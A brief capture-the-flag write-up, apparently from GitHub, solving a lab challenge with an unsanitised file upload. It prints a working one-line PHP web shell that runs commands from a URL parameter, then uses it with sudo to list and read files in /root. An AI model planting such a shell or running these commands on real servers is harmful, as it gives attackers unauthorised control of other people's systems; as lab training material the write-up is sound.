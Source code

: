 Descriptions:  
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.  
Hints:  
File upload was not sanitized  
Whenever you get a shell on a remote machine, check sudo -l  

Lunch the instance and upload a random file, easy to see, we can upload any file.  
<img width="682" height="160" alt="image" src="https://github.com/user-attachments/assets/a85fed1e-5a20-4190-a19c-bb9577fd48d7" />  
It's using php, so i decide to upload php shell code to check it.  
```php
<?php
system("$_GET[cmd]");
?>
```
Change the path to ` /uploads/<your_file>.php ` and putting some OS command  
<img width="822" height="143" alt="image" src="https://github.com/user-attachments/assets/f1348dab-ed43-4fc6-b6c7-4826f7951668" />  
Our shell code looks fine. Change it a little bit cho access the server.  
`/uploads/<your_file>.php?cmd=sudo ls /root `  
And voila, do you see the flag ? Use `cat` to read it.  

Peace!


